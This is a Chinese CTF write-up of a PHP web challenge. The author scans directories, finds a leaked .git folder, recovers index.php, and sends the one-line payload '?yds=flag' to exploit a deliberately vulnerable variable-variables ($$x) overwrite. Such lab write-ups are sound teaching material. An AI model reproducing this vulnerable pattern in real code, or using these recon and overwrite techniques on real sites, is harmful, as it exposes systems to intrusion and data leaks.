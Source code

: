 ![[Pasted image 20221122163014.png]]

---
首页长这样

![[Pasted image 20221122163031.png]]

炫酷.jpg

既然想不到啥方法，那就扫目录看看八

![[Pasted image 20221122163231.png]]

有`git`目录，有一个`flag.php`

康康`git`泄漏

---
`flag.php`（`lolcat`真好玩QwQ）

![[Pasted image 20221122164101.png]]

---
`index.php`
```php
<?php
include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag;
```

emmm，虽然但是，这个不是让`$_GET['yds']='flag'`就绕过了嘛，感觉有点像脑筋急转弯.jpg
```php
?yds=flag
```
![[Pasted image 20221123004833.png]]

#Web #PHP #代码审计 #可变变量 #目录爆破 #git泄露 